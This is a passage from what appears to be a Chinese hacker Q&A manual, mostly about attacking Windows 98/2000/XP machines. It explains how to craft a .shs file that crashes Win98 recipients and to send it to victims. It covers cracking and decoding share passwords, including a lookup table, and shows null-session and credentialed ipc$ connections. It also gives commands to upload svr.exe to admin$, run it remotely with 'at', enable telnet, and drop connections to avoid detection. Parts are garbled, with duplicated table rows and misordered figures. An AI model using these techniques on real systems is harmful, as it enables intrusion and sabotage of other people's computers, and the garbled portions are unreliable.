在“开始”->“运行”中键入 **msconfig**，回车，便会出现这个工具。在这里，查看“启动”选项卡，就可以看到所有前面打钩的程序都是会随机启动的程序（图4）。如果不想让它随机启动的话，取消办法很简单，只要去掉文件名前边的钩就可以了。

另外，除了查看随机启动程序以外，大家还会发现，在这里还有几个选项卡：`config.sys`、`autoexec.bat`、`system.ini`、`win.ini`。这几个文件在 Win98/ME 中都是启动的时候需要检查的关键文件。这里，我们以 `system.ini` 为例，查看一下 `system.ini` 选项卡，在这里将可以看到与 `system.ini` 一样的内容（图5）；只不过，在这里用图形界面更形象地表现出来而已。



图5

### Win98/ME 可否对 WinXP 使用 IPC 连接？

不可以的。在 Win98/ME 下，没有 ipc$（共享命名管道这个概念），所以无法与 WinXP 的主机建立 ipc$ 连接。另外，Win98/ME 下的命令中，也没有“net use”这个命令。

我们可以做一个实验，首先，先找到一台在线的 WinXP 主机，确定它在线，并且确定对方没有做过修改注册表或删除 ipc$ 等任何可能会影响建立 ipc$ 连接的动作。然后，我们建立空连接：

```bash
net use \\ip\ipc$ "" /user:""
```

耐心地等一会儿（超不过一分钟），返回信息看到的不是命令完成，而是报告错误（图6），说什么 user 选项未知云云……可见，Win98/ME 对 WinXP 是无法建立 ipc$ 连接的。



图6

### 有没有什么工具，让对方系统运行后就蓝屏呢？

针对 Win98 系统，有一个蓝屏的 bug，我们在前边也已经讲过了。可以利用这点自己简单地制作一个使对方蓝屏的工具，使用的工具就是 Word 编辑器。



# 黑客问答一点通

首先，打开你的 Word，然后点“插入菜单”，选择“对象”，然后选择“对象包”，这时候会弹出“对象包装程序”窗口（图7）。

给它改个好看的名字，发给一个使用 Win98 系统的可怜的孩子，很快就会见到他掉线了。



图7



图10

在这个窗口里，点“导入”，然后随便选择一个文本或是程序，什么都可以，大小尽量小一点，因为这是要传给别人的，太大了传给人不方便。选择完成之后，点“编辑菜单”，在这里选择“命令行（图8）”。



图8

然后出现一个命令行窗口，在这里写上 `C:\con\con`（图9），确定后再点文件菜单中的保存，内容完成。



图9

完成后，再点编辑菜单中的“复制包”，然后随便到一个地方将它复制下来，复制后的结果会看到是一个名为“片段”的东西。

大家也许注意到了，命令行中我们还可以插入很多其他命令，是不是很爽，随便加点什么东西，嘿嘿……不过，这个方法只针对 Win98 系统有效，而对于 WinME/2000/XP/2003 是不会有任何作用的。

> 小提示：这个能让人家蓝屏的对象包是不是很恐怖呢？其实，它的真名不是叫对象包，它的真正名字是“碎片对象”。大家应该注意到了，默认情况下是看不到它的后缀名的，其实它是有后缀的，它的后缀是 `.shs`。

### 入侵 Win98 的时候，想进入对方的共享，但是加密了，怎么办？

三个方法。第一个办法是使用工具，有两款针对 Win98 共享密码进行猜解的工具，一个是 Pqwak，还有一个是 netpass，而且这两个工具都是针对 Win98 的 bug 进行快速破解的，速度极快。

但是，相比之下，netpass 更加出色一些（我是根据大多数人的意见说的哦）。

Netpass 使用非常简单，看一下界面就知道如何使用了（图11），不用我教了吧，所有东西都填写正确后就等着秋后收粮了。



图11

第二个方法我比较喜欢，虽然速度稍慢一些，就是自己手动猜解。

Win98 的共享密码漏洞就是出在验证过程中，只要是提交的密码第一位和设置的密码第一位相同，就认为该密码正确，就允许通过验证并进行访问。因此，只要自己手动猜解的话，很快也会猜到的，因为只要猜一个字符就可以了嘛。

第三个方法，替换 `vredir.vxd` 文件。这个文件在很多黑客软件的网站上都可以找到，网上那些都是经过修改的。只要把它放到 `c:\windows\system`（假设 Windows 安装在 C 盘）下，替换原文件，重新启动计算机，然后进入对方的共享。等到对方需要密码的时候，只要按住回车不放，如果网速够快，用不了几秒就可以进入了。

除了这三个方法外，我们在前边也提到过使用 `win9xnetbiosex` 这个攻击程序，也可以进行尝试。

- 有一台 Win98 主机，有一个共享加密了，也打了补丁，没办法从网上破解，怎么做？
- 如果是无法进行远程连接的话，这就很麻烦了。但还是有一点机会，不过需要你能从物理上接触它的主机。如果可以的话，那么就按照下面的方法来做吧。

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan`

打开注册表编辑器，来到以下位置，查看参数 Parmlenc，查看它的值。例如，值为 `74d80e`，把它拆开来看，分为每两个字节一个组合来看，那么就是“74-d8-0e”了。根据下表来查看，就可以知道它的共享密码是 ABC。下表是用来查看共享密码的表格：

排列顺序依次为：  
代表的字符 = 第一位密码 = 第二位 = 第三位 = 第四位 = 第五位 = 第六位 = 第七位 = 第八位

第一部分，英文字母：

| 字符 | 第1位 | 第2位 | 第3位 | 第4位 | 第5位 | 第6位 | 第7位 | 第8位 |
|---|---|---|---|---|---|---|---|---|
| A | 74 | db | 0c | e7 | 12 | e8 | 95 | 2b |
| B | 77 | d8 | 0f | e4 | 11 | eb | 96 | 28 |
| C | 76 | d9 | 0e | e5 | 10 | ea | 97 | 29 |
| D | 71 | de | 09 | e2 | 17 | ed | 90 | 2e |
| E | 70 | df | 08 | e3 | 16 | ec | 91 | 2f |
| F | 73 | dc | 0b | e0 | 15 | ef | 92 | 2c |
| G | 72 | dd | 0a | e1 | 14 | ee | 93 | 2d |
| H | 7d | d2 | 05 | ee | 1b | e1 | 9c | 22 |
| I | 7c | d3 | 04 | ef | 1a | e0 | 9d | 23 |
| J | 7f | d0 | 07 | ec | 19 | e3 | 9e | 20 |
| K | 7e | d1 | 06 | ed | 18 | e2 | 9f | 21 |
| L | 79 | d6 | 01 | ea | 1f | e5 | 98 | 26 |
| M | 78 | d7 | 00 | eb | 1e | e4 | 99 | 27 |
| N | 7b | d4 | 03 | e8 | 1d | e7 | 9a | 24 |
| O | 7a | d5 | 02 | e9 | 1c | e6 | 9b | 25 |
| P | 65 | ca | 1d | f6 | 03 | f9 | 84 | 3a |
| Q | 64 | cb | 1c | f7 | 02 | f8 | 85 | 3b |
| R | 67 | c8 | 1f | f4 | 01 | fb | 86 | 38 |
| S | 66 | c9 | 1e | f5 | 00 | fa | 87 | 39 |
| T | 61 | ce | 19 | f2 | 07 | fd | 80 | 3e |
| U | 60 | cf | 18 | f3 | 06 | fc | 81 | 3f |
| V | 63 | cc | 1b | f0 | 05 | ff | 82 | 3c |
| W | 62 | c2 | 15 | fe | 0b | f1 | 8c | 32 |
| X | 6d | c2 | 15 | fe | 0b | f1 | 8c | 32 |
| Y | 6c | c3 | 14 | ff | 0a | f0 | 8d | 33 |
| Z | 6f | c0 | 17 | fc | 09 | f3 | 8e | 30 |
| % | 10 | bf | 68 | 83 | 76 | 8c | f1 | 4f |
| ^ | 6b | c4 | 13 | f8 | 0d | f7 | 8a | 34 |
| & | 13 | bc | 6b | 80 | 75 | 8f | f2 | 4c |
| * | 1f | b0 | 67 | 8c | 79 | 83 | fe | 40 |
| ( | 1d | b2 | 65 | 8e | 7b | 81 | fc | 42 |
| ) | 1c | b3 | 64 | 8f | 7a | 80 | fd | 43 |
| - | 18 | b7 | 60 | 8b | 7e | 84 | f9 | 47 |
| + | 1e | b1 | 66 | 8d | 78 | 82 | ff | 41 |
| _ | 6a | c5 | 12 | f9 | 0c | f6 | 8b | 35 |
| = | 08 | a7 | 70 | 9b | 6e | 94 | e9 | 57 |
| [ | 6e | c1 | 16 | fd | 08 | f2 | 8f | 31 |
| ] | 68 | c7 | 10 | fb | 0e | f4 | 89 | 37 |
| { | 4e | e1 | 36 | dd | 28 | d2 | af | 11 |
| } | 48 | e7 | 30 | db | 2e | d4 | a9 | 17 |
| ; | 0e | a1 | 76 | 9d | 68 | 92 | ef | 51 |
| : | 0f | a0 | 77 | 9c | 69 | 93 | ee | 50 |
| ' | 12 | bd | 6a | 81 | 74 | 8e | f3 | 4d |
| " | 17 | b8 | 6f | 84 | 71 | 8b | f6 | 48 |
| , | 19 | b6 | 61 | 8a | 7f | 85 | f8 | 46 |
| < | 09 | a6 | 71 | 9a | 6f | 95 | e8 | 56 |
| . | 1b | b4 | 63 | 88 | 7d | 87 | fa | 44 |
| > | 0b | a4 | 73 | 98 | 6b | 97 | ea | 54 |
| ? | 0a | a5 | 72 | 99 | 6c | 96 | eb | 55 |
| / | 1a | b5 | 62 | 89 | 7c | 86 | fb | 45 |
| \ | 69 | c6 | 11 | fa | 0f | f5 | 88 | 36 |
| \| | 49 | e6 | 31 | da | 2f | d5 | a8 | 16 |

## 第一部分，空格和数字：

```text
space=15=ba=6d=86=73=89=f4=4a
1=04=ab=7c=97=62=98=e5=5b
2=07=a8=7f=94=61=9b=e6=58
3=06=a9=7e=95=60=9a=e7=59
4=01=ae=79=92=67=9d=e0=5e
5=00=af=78=93=66=9c=e1=5f
6=03=ac=7b=90=65=9f=e2=5c
7=02=ad=7a=91=64=9e=e3=5d
8=0d=a2=75=9e=6b=91=ec=52
9=0c=a3=74=9f=6a=90=eb=53
0=05=aa=7d=96=63=99=e4=5a
```

根据这个表格，就可以对应出 Win98 的共享密码了。

Win98 中存储着 Win98 密码的文件是什么文件？

Win98 中存储了密码的文件是以 `.pwl` 为后缀名的文件，搜索以 `.pwl` 为后缀名的文件后，使用 pwltool 就可以破解了。不过，pwltool 比较久远了，不知道还有没有这个工具。另外，破解 Win98 的密码也是没有任何意义的事情，大家了解一下就好了。

## 第三部分，特殊符号部分：

```text
~=4b=e4=33=d8=2d=d7=aa=14
`=55=fa=2d=c6=33=c9=b4=0a
!=14=bb=6c=87=72=88=f5=4b
@=75=da=0d=e6=13=e9=94=2a
#=16=b9=6e=85=70=8a=f7=49
$=11=be=69=82=77=8d=f0=4e
```

## 第四章

## Windows 2000/XP/2003 常见装机问题

问：我的系统中已经安装了 Windows XP，可是我还想再安装一个 Windows 2003 系统，该如何安装呀？

答：安装多操作系统需要按照以下次序：Win98、WinME、Win2000、WinXP、Win2003。按照这样的顺序安装好后，就会自动生成多重启动菜单了。我们强烈建议在安装多操作系统的时候，将不同的操作系统安装在不同的硬盘分区中。虽然事实上安装在同一个硬盘分区也是完全可以的，不过安装在不同的硬盘分区，管理起来会更加方便。

图1

问：我的系统目前是 Windows98 + Windows2000 双系统，默认启动的是 Windows2000，可不可以换成 Windows98 呢？

答：当然可以。我们进入 Win2000，右击“我的电脑”，选择“属性”->“高级”->“启动和故障恢复”，在出现的菜单中我们就可以看到“默认操作系统”了，选择“Microsoft Windows”（图1），这样下次启动时就会默认选择 Win98 系统了。当然，你以后可以随时进行切换。在“默认操作系统”栏的下方是选择系统的默认等待时间，默认为 30 秒，如果你感觉这个时间不合适的话，可以进行调整，比如缩短到 15 秒。

问：我的电脑中原来安装有 2 个操作系统，后来我删除了一个，可是在重启时还是会出现多重启动菜单，该如何把启动菜单里已经被删除的那个选项清除掉？

答：通常这个多重启动菜单是保存在 C 盘根目录下的 boot.ini 文件中的。其默认属性为“存档 + 隐藏 + 系统”，所以直接查看该文件是看不到的，当然也就不能直接修改了。可以先去掉文件属性，然后修改该文件，将已经删除的系统启动项清除掉即可。最后别忘记再把属性加回去。

```bash
attrib -a -h -s boot.ini
# 修改 boot.ini 后
attrib +a +h +s boot.ini
```

## Windows 2000/XP/2003 常见基础问题

问：在 Win2k/XP/2003 里有个 cmd.exe，那是个什么东西？和 Win98 下的 MS-DOS 一样吗？

答：Win2k/XP/2003 里没有 Win98 下类似 MS-DOS 的工具。虽然表面上这两个很相似，但是实际上却是两个完全不同的程序。  
cmd.exe 叫做“命令提示符”，是不同于 Win98 下 MS-DOS 的一个 shell，可以用它来执行很多常见的 DOS 命令，如 dir、cd、md、del 等等。但是，cmd.exe 毕竟只是一个 DOS 的模拟程序，不能将 MS-DOS 和 cmd.exe 混为一谈。

问：如何才能建立一个 ipc$ 空连接？

答：建立 ipc$ 空连接就是建立一个不需要用户名和密码、不需要系统进行验证的连接，命令为：

```bash
net use \\ip\ipc$ "" /user:""
```

当收到成功提示后，就算建立了一个 ipc$ 空连接。

问：得到用户名和密码后，如何与对方系统建立连接？

答：最常见的连接方式就是 ipc$ 连接，方法很简单：

```bash
net use \\ip\ipc$ "password" /user:"username"
```

这样就建立了连接。

问：与对方建立了 ipc$ 连接后，会被发现吗？

答：ipc$ 名为“共享命名管道”，建立了 ipc$ 连接后，就相当于与对方主机之间建立起一条无形的连接通道。所以，如果对方对本地机与外界主机的通信进行监视的话，很容易会发现。因此，在使用完该连接后要尽快删除，命令为：

```bash
net use \\ip\ipc$ /del
```

问：请问如何在命令行方式下启动本机的 ipc$？

答：ipc$ 并不是一个服务，而是一个特殊的管理共享。删除或开启 ipc$ 共享的命令分别为：`net share ipc$` 和 `net share ipc$ /del`（图2）。

问：我使用的是 Win2000 系统，与远程 Win2000 建立 ipc$ 连接时很方便，但是与远程 WinXP 或 Win2003 建立 ipc$ 连接时却很少成功，而对方并没有使用防火墙禁止 ipc$ 呀？

答：对于 Win2000 系统，ipc$ 管道连接默认使用 139 端口，如果 139 端口无法建立连接，再改用 445。  
但是对于 WinXP/Win2003 系统，微软放弃了 139，默认改用 445 端口来进行 ipc$ 连接。这也就造成了我们与远程 WinXP/Win2003 系统建立 ipc$ 连接时，成功率不如 Win2000 高，不如连接 Win2000 的 ipc$ 方便。

# 黑客问答一点通

问：能不能使用命令来开启或停止服务？

答：可以。使用命令 `net start` 或 `net stop` 就可以了。例如开启 telnet 服务，只要用 `net start telnet` 即可（图3）。

问：我不知道用 `net start` 和 `net stop` 命令能开启或停止哪些服务，哪里可以查？

答：可以到“控制面板→服务”里查看服务名。另外，使用命令也可以，命令格式为：`net help start` 或 `net help stop`（图4）。  
但是要注意：如果服务名中含有空格，例如“CLIENT SERVICE FOR NETWARE”，就要用引号括起来。命令应写成：`net start(stop) "CLIENT SERVICE FOR NETWARE"`。

问：我在建立了 ipc$ 连接后，如何上传文件？

答：只要用 `copy` 命令就可以了。  
`copy c:\svr.exe \\ip\admin$`，这样就把文件上传到对方的 admin$（`c:\winnt`）共享文件夹下了（图5）。

问：当我们利用 ipc$ 上传了文件后，怎么才能运行呢？

答：建议使用最简单的方法：`at` 命令。`at` 命令用于指定 Win2k 的计划任务，可以指定某个程序在指定时间运行。格式为：

```bash
at \\ip time svr.exe (or command)
```

其中 `time` 是指定运行程序的时间，`svr.exe` 是要运行的程序。后面的 `(or command)` 说明除了能运行程序外，还可以指定要运行的命令，例如：`net start telnet`。这样就可以在指定时间开启对方的 telnet 服务。

问：我想用 at 命令指定任务，但是我不知道对方主机时间，怎么运行？

答：获取对方主机时间也可以通过命令轻松搞定。在建立了 ipc$ 连接后（有时候只需要建立 ipc$ 空连接即可），可以使用：

```bash
net time \\ip
```

（图6）。建立 ipc$ 连接后，直接用这个命令就可得到对方系统时间。这个时间是通过对方 NetBIOS 泄露的，如果对方封堵了端口或停掉服务，则无法通过 ipc$ 连接获取时间。

问：我在使用 at 的时候，提示我服务未启动，怎么回事？

答：`at` 命令是基于 Task Scheduler 服务的。该服务用于支持主机运行计划任务，所以如果此服务未启动，将不能使用 `at` 命令。可在本机开启该服务：

```bash
net start "Task Scheduler"
```

（图7）。由于服务名中含有空格，所以要用引号括起来。这样就可以使用 `at` 命令了。

问：我与对方 WinXP 系统成功建立了 ipc$ 连接，但是在使用 at 命令启动对方 telnet 服务时怎么也不能成功，格式也完全没错，这是为什么？

答：WinXP/2003 的 ipc$ 连接并不与 Win2000 完全相同。WinXP/2003 安全性更高，所有与其建立的 ipc$ 连接权限都只是 guest，即使连接时使用的是管理员帐号。这一点与 Win2000 不同。正因为只有 guest 权限，所以会限制可执行命令，诸如开启服务、添加帐号等命令都无法执行。

问：在命令行下，映射对方磁盘到本地的命令是什么？

```bash
net use x: \\ip\C$
```

这样就把对方 C 盘（假设 C 盘被默认共享）映射到本地 X 盘了。这时我们就可以像使用本地资源一样查看或修改远程机文件（图8），前提是你有足够权限。

问：我映射了对方的磁盘，那么现在我用什么命令才能断开映射呢？

答：`net use x: /del`（其中 X 盘是你映射远程主机的盘符）。命令成功后会有提示（图9）。

问：有没有在命令行下可以杀死对方进程的工具？

答：微软 Win2k 以上操作系统都有这个工具，不过安装时默认没装到系统中，需要自己安装。该工具在 Win2k 光盘的 `\support\tools` 文件夹下，有安装程序（图10）。  
安装后，在 cmd 下输入 `kill /?` 就可以看到帮助。命令使用很简单：`kill pid`，其中 pid 是进程 ID，可在任务管理器里查看（图11）。

问：我能不能在命令行模式下获得对方的 pid 呢？例如我是 telnet 到对方主机，没有办法调出任务管理器。

答：可以。还是 support tools 里，有一个工具叫 tlist，就是实现这个功能的。使用方法很简单：在命令行下输入 `tlist`，就可以获得 pid 与应用程序对应列表（图12），部分程序后还有注释。  
另外，通过 `net session` 可查看会话；如果会话清单为空，说明该会话已被删除（图14）。

问：有什么命令可以查看某个文件夹分配给每个用户的权限？

答：`CACLS` 命令即可。它用于查看每个文件或文件夹的 ACL（访问控制列表），通过它可查看哪些用户是否有权限访问。例如在 E 盘下使用命令 `cacls hack-tool` 查看 `hack-tool` 文件夹 ACL，可看到如图13 的情况。  
其中：`F` 代表完全控制，`R` 代表只读，`C` 代表更改（写入），`W` 代表写入，`N` 代表无权限。

问：nslookup 干什么用的？听说可以获得 DNS，怎么用？

